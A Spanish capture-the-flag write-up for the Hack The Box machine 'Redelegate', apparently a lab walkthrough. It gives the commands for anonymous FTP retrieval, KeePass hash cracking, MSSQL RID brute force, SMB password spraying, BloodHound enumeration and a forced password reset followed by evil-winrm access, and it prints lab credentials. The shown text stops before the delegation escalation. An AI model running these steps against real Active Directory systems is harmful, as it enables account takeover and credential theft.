___
Tags: #Hard #Redelegate
___
# Redelegate

## Información General

**- Dificultad:** Hard <br>
**- Sistema operativo:** Windows <br>
**- Fecha de resolución:** 11/08/2026 <br>
**- Enlace:** [Redelegate](https://app.hackthebox.com/machines/Redelegate) <br>

## Usuarios identificados

- _SQLGuest_
- _Marie Curie_
- _Helen Frost_

## Listado de Vulnerabilidades Identificadas

### 1. Lectura Anónima en FTP (Anonymous FTP Access)

- **Descripción:** El servicio FTP (`vsftpd` / Microsoft ftpd) permite el inicio de sesión anónimo (`ftp-anon: Anonymous FTP login allowed`).

- **Impacto:** Permite a cualquier atacante no autenticado descargar archivos sensibles como `CyberAudit.txt`, `TrainingAgenda.txt` y la base de datos de contraseñas de KeePass `Shared.kdbx`.

### 2. Uso de Patrones de Contraseñas Débiles y Predecibles

- **Descripción:** Los documentos hallados en el FTP revelan que la organización utiliza la política/patrón de contraseñas `SeasonYear!` (por ejemplo, `Fall2024!`).

- **Impacto:** Permite crear una lista reducida de contraseñas objetivo y romper la clave del archivo KeePass (`Shared.kdbx`), además de facilitar ataques de _password spraying_.
### 3. Almacenamiento e Reutilización de Credenciales

- **Descripción:** Se encontraron credenciales funcionales en el archivo `Shared.kdbx` reutilizables en otros servicios expuestos, como las del usuario de base de datos `SQLGuest`.

- **Impacto:** Con el usuario `SQLGuest` se logra autenticación local en el servicio Microsoft SQL Server (MSSQL).
### 4. Enumeración de Usuarios mediante Brute Force de RID en MSSQL

- **Descripción:** El servicio MSSQL permite a usuarios autenticados realizar consultas iterativas por RID (`--rid-brute`).

- **Impacto:** Revela el listado completo de usuarios y grupos válidos pertenecientes al dominio Active Directory (`redelegate.vl`).

### 5. Ausencia de Bloqueo de Cuentas y Susceptibilidad a Password Spraying

- **Descripción:** Las políticas de bloqueo de cuenta en Active Directory no restringen los intentos fallidos de inicio de sesión masivos sobre el servicio SMB 

- **Impacto:** Permite validar la contraseña `Fall2024!` para el usuario `Marie.Curie`.
### 6. Control de Acceso Excesivo (ACLs/ACEs Peligrosas - `ForceChangePassword`)

- **Descripción:** El grupo `Helpdesk` (del cual `Marie.Curie` es miembro) cuenta con el derecho sobreescrito `ForceChangePassword` sobre múltiples cuentas del dominio, incluyendo a `Helen.Frost`.

- **Impacto:** Permite a `Marie.Curie` cambiar arbitrariamente la contraseña de `Helen.Frost` sin conocer su clave anterior.
### 7. Asignación de Permiso `GenericAll` sobre Objetos de Computadora

- **Descripción:** El grupo `IT` (al que pertenece `Helen.Frost`) tiene permisos de control total (`GenericAll`) sobre el objeto de máquina `FS01$`.

- **Impacto:** Permite a `Helen.Frost` modificar libremente atributos del Active Directory en la cuenta de máquina `FS01$`, como los _Service Principal Names_ (`servicePrincipalName`) y las relaciones de delegación (`msDS-AllowedToDelegateTo`).

### 8. Abuso del Privilegio `SeEnableDelegationPrivilege` y Delegación Restringida

- **Descripción:** La cuenta de `Helen.Frost` posee asignado el privilegio especial de Windows `SeEnableDelegationPrivilege`, que habilita la modificación de parámetros de delegación en Active Directory.

- **Impacto:** Al combinar este privilegio con `GenericAll` sobre `FS01$`, se puede configurar una Delegación Restringida de Kerberos apuntando al servicio LDAP del Controlador de Dominio (`ldap/dc.redelegate.vl`). Con las extensiones Kerberos **S4U2Self** y **S4U2Proxy**, un atacante suplanta la identidad de la cuenta `dc` / `Administrator`, obtiene un ticket TGT/ST con privilegios elevados, ejecuta un volcado de hashes con `secretsdump.py` y compromete totalmente el sistema (`root.txt`).
## Reconocimiento

**HTB** nos proporciona la ip de la máquina objetivo **10.129.48.226**

### Ping

```
ping -c 1 10.129.48.226
```

<p align="center">

</p>

**Su ttl es 128. Por tanto, es Window**

## Enumeración

### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 10.129.48.226
```

```bash
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 10-20-24  01:11AM                  434 CyberAudit.txt
| 10-20-24  05:14AM                 2622 Shared.kdbx
|_10-20-24  01:26AM                  580 TrainingAgenda.txt
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-11 13:40:48Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: redelegate.vl, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   10.129.48.226:1433: 
|     Target_Name: REDELEGATE
|     NetBIOS_Domain_Name: REDELEGATE
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: redelegate.vl
|     DNS_Computer_Name: dc.redelegate.vl
|     DNS_Tree_Name: redelegate.vl
|_    Product_Version: 10.0.20348
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-08-11T13:37:46
|_Not valid after:  2056-08-11T13:37:46
|_ssl-date: 2026-08-11T13:41:15+00:00; -1s from scanner time.
| ms-sql-info: 
|   10.129.48.226:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: redelegate.vl, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: REDELEGATE
|   NetBIOS_Domain_Name: REDELEGATE
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: redelegate.vl
|   DNS_Computer_Name: dc.redelegate.vl
|   DNS_Tree_Name: redelegate.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-08-11T13:41:06+00:00
| ssl-cert: Subject: commonName=dc.redelegate.vl
| Not valid before: 2026-08-10T13:34:58
|_Not valid after:  2027-02-09T13:34:58
|_ssl-date: 2026-08-11T13:41:15+00:00; -1s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

| Open port | Service       | Version                                 |
| --------- | ------------- | --------------------------------------- |
| 21        | FTP           | Microsoft ftpd                          |
| 53        | Domain        | Simple DNS Plus                         |
| 80        | HTTP          | Microsoft IIS httpd 10.0                |
| 88        | kerberos-sec  | Microsoft Windows Kerberos              |
| 135       | msrpc         | Microsoft Windows RPC                   |
| 139       | netbios-ssn   | Microsoft Windows netbios-ssn           |
| 389       | ldap          | Microsoft Windows Active Directory LDAP |
| 1433      | ms-sql-s      | Microsoft SQL Server 2019 15.00.2000.00 |
| 3268      | ldap          | Microsoft Windows Active Directory LDAP |
| 3389      | ms-wbt-server | Microsoft Terminal Services             |
| 5985      | http          | Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) |
* DNS_Domain_Name: **redelegate.vl**
* DNS_Computer_Name: **dc.redelegate.vl**
* NetBIOS_Computer_Name: **DC**

Tras esta información rellenamos nuestro archivo **hosts** con los siguientes datos

>10.129.48.226 redelegate.vl dc.redelegate.vl DC

### FTP - anonymous

```
ftp 10.129.48.226
binary
prompt off
mget *
```

* **binary**: 

	**Qué hace?** Cambia el modo de transferencia de archivos a **modo binario**.

	**Detalle:** Por defecto, FTP a veces inicia en modo _ASCII_ (pensado solo para texto plano). Si intentas descargar archivos ejecutables, imágenes, archivos comprimidos (.zip, .tar.gz) o bases de datos en modo ASCII, **los archivos se corruptrán**. El modo `binary` asegura que los datos se descarguen tal cual están en el servidor, bit a bit.

* **prompt off**:

	**¿Qué hace?** Desactiva las confirmaciones interactivas antes de descargar cada archivo.

	**Detalle:** Por defecto, al descargar múltiples archivos, FTP te preguntaría en la consola `¿Descargar archivo1.txt? (y/n)`. Si el servidor contiene decenas o cientos de archivos, tendría que presionar `y` manualmente para cada uno. `prompt off` le dice a FTP que no pregunte nada y proceda directamente.

En el **ftp** nos encontraremos los siguientes archivos:

> CyberAudit.txt  Shared.kdbx  TrainingAgenda.txt

* **CyberAudit.txt**:

<p align="center">

</p>

```
RESULTADOS DE LA AUDITORÍA DE OCTUBRE DE 2024

[!] Hallazgos de la auditoría de ciberseguridad:

1) Contraseñas de usuario débiles
2) Privilegios excesivos asignados a los usuarios
3) Objetos de Active Directory sin usar
4) Listas de control de acceso (ACL) peligrosas en Active Directory

[*] Medidas correctivas:

1) Solicitar a los usuarios que cambien sus contraseñas: HECHO
2) Revisar los privilegios de todos los usuarios y eliminar los privilegios elevados: HECHO
3) Eliminar los objetos sin usar en el dominio: EN PROGRESO
4) Revisar las ACL: EN PROGRESO
```

* TrainingAgenda.txt

<p align="center">

</p>

```
PROGRAMA DE FORMACIÓN EN CIBERSEGURIDAD PARA EMPLEADOS (OCTUBRE DE 2024)

Viernes 4 de octubre | 14:30 - 16:30 - 53 asistentes
"No caigas en la trampa": Cómo comprender mejor los correos electrónicos de phishing y qué hacer al recibir uno.

Viernes 11 de octubre | 15:30 - 17:30 - 61 asistentes
"Redes sociales y sus peligros": ¿Qué sucede con lo que publicas en línea?

Viernes 18 de octubre | 11:30 - 13:30 - 7 asistentes
"Contraseñas débiles": Por qué "SeasonYear!" no es una buena contraseña.

Viernes 25 de octubre | 9:30 - 12:30 - 29 asistentes
"¿Y ahora qué?": Consecuencias de un ciberataque y cómo mitigarlas.
```

Posible contraseña **SeasonYear!**

### Enumeración web

#### feroxbuster

```
feroxbuster -u http://10.129.48.226 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
```

<p align="center">

</p>

no hay nada

### SMB 

```
netexec smb dc.redelegate.vl -u guest -p ''
```

<p align="center">

</p>

La cuenta **guest** está deshabilitado, se volverá cuando tengamos usuarios validados.

## Explotación

### como obtener el usuario Marie Curie

#### Crearemos una lista relacionada con las estaciones

Se creará una lista bajo esta fórmula **SeasonYear!** como la auditoría se realizo en 2024, usaremos este año

- `Spring2024!`
- `Summer2024!`
- `Fall2024!`
- `Autumn2024!`
- `Winter2024!`

Se guardará en **pass.txt**

#### Crackear shared.kdbx

```
keepass2john Shared.kdbx | tee Shared.kdbx.hash
```

>`Shared:$keepass$*2*600000*0*ce7395f413946b0cd279501e510cf8a988f39baca623dd86beaee651025662e6*e4f9d51a5df3e5f9ca1019cd57e10d60f85f48228da3f3b4cf1ffee940e20e01*18c45dbbf7d365a13d6714059937ebad*a59af7b75908d7bdf68b6fd929d315ae6bfe77262e53c209869a236da830495f*806f9dd2081c364e66a114ce3adeba60b282fc5e5ee6f324114d38de9b4502ca`

```
hashcat Shared.kdbx.hash seasons --user -m 13400
```

> Fall2024!

#### Acceder a Shared.kdbx

**Instalalación keepassxc-cli**

```
sudo apt update 
sudo apt install keepassxc -y
keepassxc-cli --version
```

> 2.7.10

```
echo 'Fall2024!' | keepassxc-cli export Shared.kdbx --format csv
```

```bash
Introduzca contraseña para desbloquear: Shared.kdbx
KdbxXmlReader::readDatabase: found 1 invalid group reference(s)
"Group","Title","Username","Password","URL","Notes","TOTP","Icon","Last Modified","Created"
"Shared/IT","FTP","FTPUser","SguPZBKdRyxWzvXRWy6U","","Deprecated","","0","2024-10-20T07:56:58Z","2024-10-20T07:56:20Z"
"Shared/IT","FS01 Admin","Administrator","Spdv41gg4BlBgSYIW1gF","","","","0","2024-10-20T07:57:21Z","2024-10-20T07:57:02Z"
"Shared/IT","WEB01","WordPress Panel","cn4KOEgsHqvKXPjEnSD9","","","","0","2024-10-20T08:00:25Z","2024-10-20T07:57:24Z"
"Shared/IT","SQL Guest Access","SQLGuest","zDPBpaF4FywlqIv11vii","","","","0","2024-10-20T08:27:09Z","2024-10-20T08:26:48Z"
"Shared/HelpDesk","KeyFob Combination","","22331144","","","","0","2024-10-20T12:12:32Z","2024-10-20T12:12:09Z"
"Shared/Finance","Timesheet Manager","Timesheet","hMFS4I0Kj8Rcd62vqi5X","","","","0","2024-10-20T12:14:18Z","2024-10-20T12:13:30Z"
"Shared/Finance","Payrol App","Payroll","cVkqz4bCM7kJRSNlgx2G","","","","0","2024-10-20T12:14:11Z","2024-10-20T12:13:50Z"
```

Todas las contraseñas obtenidas se sobrescribiría en **pass.txt** por tanto, quedaría tal que así:

- **SeasonYear!**
- **Summer2024!**
- **Winter2024!**
- **Fall2024!**
- **Spring2024!**
- **Autumn2024!**
- **cVkqz4bCM7kJRSNlgx2G**
- **hMFS4I0Kj8Rcd62vqi5X**
- **22331144**
- **Spdv41gg4BlBgSYIW1gF**
- **SguPZBKdRyxWzvXRWy6U**
- **zDPBpaF4FywlqIv11vii**
- **cn4KOEgsHqvKXPjEnSD9**

#### Validando credenciales

La única credencial que me sirvió fue del usuario **SQLGuest** con el parámetro **--local-auth** que valida las credenciales para BBDD

```
netexec mssql dc.redelegate.vl -u SQLGuest -p zDPBpaF4FywlqIv11vii --local-auth
```

<p align="center">

</p>

Con el siguiente comando listamos los usuarios existente del dominio **redelegate**

```
nxc mssql dc.redelegate.vl -u 'SQLGuest' -p 'zDPBpaF4FywlqIv11vii' --rid-brute --local-auth
```

- `--rid-brute`: Intenta enumerar cuentas existentes iterando a través de los RIDs.
- `--local-auth`: Autentica las credenciales de manera local en el servidor objetivo.

<p align="center">

</p>

Todos los nuevos usuarios conseguido lo guardamos en **user.txt**:

- **Christine.Flanders**
- **Marie.Curie**
- **Helen.Frost**
- **Michael.Pontiac**
- **Mallory.Roberts**
- **James.Dinkleberg**
- **Helpdesk**
- **Ryan.Cooper**

#### Obteniendo credenciales del usuario Marie.Curie

Este comando utiliza **NetExec** (`nxc`) para realizar un ataque de **password spraying** (o prueba masiva de credenciales) sobre el servicio SMB de la máquina de destino.

```
nxc smb 10.129.48.226 -u user.txt -p pass.txt --continue-on-success
```

>  [+] redelegate.vl\Marie.Curie:Fall2024! 

```
netexec mssql dc.redelegate.vl -u Marie.Curie -p Fall2024!
```

<p align="center">

</p>

## Escalada de Privilegios

### Shell as Helen.Frost

#### Descargar BloodHound

Para descargar **BloodHound** usaré el siguiente docker-compose.yml

```
# Copyright 2023 Specter Ops, Inc.
#
# Licensed under the Apache License, Version 2.0
# you may not use this file except in compliance with the License.
# You may obtain a copy of the License at
#
#     http://www.apache.org/licenses/LICENSE-2.0
#
# Unless required by applicable law or agreed to in writing, software
# distributed under the License is distributed on an "AS IS" BASIS,
# WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
# See the License for the specific language governing permissions and
# limitations under the License.
#
# SPDX-License-Identifier: Apache-2.0

services:
  app-db:
    image: docker.io/library/postgres:18
    environment:
      - PGUSER=${POSTGRES_USER:-bloodhound}
      - POSTGRES_USER=${POSTGRES_USER:-bloodhound}
      - POSTGRES_PASSWORD=${POSTGRES_PASSWORD:-bloodhoundcommunityedition}
      - POSTGRES_DB=${POSTGRES_DB:-bloodhound}
    # Database ports are disabled by default. Please change your database password to something secure before uncommenting
    # ports:
    #   - 127.0.0.1:${POSTGRES_PORT:-5432}:5432
    volumes:
      - postgres-data:/var/lib/postgresql
    healthcheck:
      test:
        [
          "CMD-SHELL",
          "pg_isready -U ${POSTGRES_USER:-bloodhound} -d ${POSTGRES_DB:-bloodhound} -h 127.0.0.1 -p 5432"
        ]
      interval: 10s
      timeout: 5s
      retries: 5
      start_period: 30s

  graph-db:
    image: docker.io/library/neo4j:4.4.42
    environment:
      - NEO4J_AUTH=${NEO4J_USER:-neo4j}/${NEO4J_SECRET:-bloodhoundcommunityedition}
      - NEO4J_dbms_allow__upgrade=${NEO4J_ALLOW_UPGRADE:-true}
    # Database ports are disabled by default. Please change your database password to something secure before uncommenting
    ports:
      - 127.0.0.1:${NEO4J_DB_PORT:-7687}:7687
      - 127.0.0.1:${NEO4J_WEB_PORT:-7474}:7474
    volumes:
      - ${NEO4J_DATA_MOUNT:-neo4j-data}:/data
    healthcheck:
      test:
        [
          "CMD-SHELL",
          "wget -O /dev/null -q http://localhost:7474 || exit 1"
        ]
      interval: 10s
      timeout: 5s
      retries: 5
      start_period: 30s

  bloodhound:
    image: docker.io/specterops/bloodhound:${BLOODHOUND_TAG:-latest}
    environment:
      - bhe_disable_cypher_complexity_limit=${bhe_disable_cypher_complexity_limit:-false}
      - bhe_enable_cypher_mutations=${bhe_enable_cypher_mutations:-false}
      - bhe_graph_query_memory_limit=${bhe_graph_query_memory_limit:-2}
      - bhe_database_connection=user=${POSTGRES_USER:-bloodhound} password=${POSTGRES_PASSWORD:-bloodhoundcommunityedition} dbname=${POSTGRES_DB:-bloodhound} host=app-db
      - bhe_neo4j_connection=neo4j://${NEO4J_USER:-neo4j}:${NEO4J_SECRET:-bloodhoundcommunityedition}@graph-db:7687/
      - bhe_recreate_default_admin=${bhe_recreate_default_admin:-false}
      - bhe_graph_driver=${GRAPH_DRIVER:-neo4j}
      ### Add additional environment variables you wish to use here.
      ### For common configuration options that you might want to use environment variables for, see `.env.example`
      ### example: bhe_database_connection=${bhe_database_connection}
      ### The left side is the environment variable you're setting for bloodhound, the variable on the right in `${}`
      ### is the variable available outside of Docker
    ports:
      ### Default to localhost to prevent accidental publishing of the service to your outer networks
      ### These can be modified by your .env file or by setting the environment variables in your Docker host OS
      - ${BLOODHOUND_HOST:-127.0.0.1}:${BLOODHOUND_PORT:-8081}:8080
    ### Uncomment to use your own bloodhound.config.json to configure the application
    # volumes:
    #   - ./bloodhound.config.json:/bloodhound.config.json:ro
    depends_on:
      app-db:
        condition: service_healthy
      graph-db:
        condition: service_healthy

volumes:
  neo4j-data:
  postgres-data:
```

Para iniciarlo, usare el siguiente comando:

```
docker-compose up -d
```

Luego en el navegador ponemos lo siguiente: 

```
http://127.0.0.1:8081
```

comando para recuperar la contraseña

```
sudo docker-compose logs bloodhound | grep -A 5 -i "Initial Password"
```

<p align="center">

</p>

user: **admin** <br>
pass: **sZD9EjUyblDPEEwc1BtSM9AdCOWt5Y6s**

#### Enumeration - AD

Usaré el siguiente comando para extraer .zip y luego usarlo en blood hound

```
bloodhound-python -d 'redelegate.vl' -u 'Marie.Curie' -p 'Fall2024!' -gc 'redelegate.vl' -dc 'redelegate.vl' -ns 10.129.48.226 -c all --zip
```

Dentro de **bloodHound** con el usuario marie.curie me encuentro las siguientes relaciones:

Como miembro de **Helpdesk**, **marie.curie** tiene acceso a más de `ForceChangePassword` usuarios

<p align="center">

</p>

Luego, investigando con el usuario  **HELEN.FROST** parece que existe una ruta hasta `GenericAll` en el objeto de computadora **FS01$**

<p align="center">

</p>

**Helen.Frost** también forma parte del grupo de usuarios de gestión remota, lo que significa que puedo obtener un acceso a la consola y explorar el sistema de archivos del ordenador.

<p align="center">

</p>

#### Shell

```
netexec smb dc.redelegate.vl -u Marie.Curie -p 'Fall2024!' -M change-password -o USER=helen.frost NEWPASS=Password123
```

Se cambio con éxito la contraseña al usuario **helen.frost**

<p align="center">

</p>

```
netexec smb dc.redelegate.vl -u Helen.Frost -p Password123
```

Me ha validado correctamente el usuario **helen.frost**

<p align="center">

</p>

```
netexec winrm dc.redelegate.vl -u Helen.Frost -p Password123
```

El usuario **helen.frost** es valido para el winrm

<p align="center">

</p>

```
evil-winrm -i dc.redelegate.vl -u helen.frost -p Password123 
```

<p align="center">
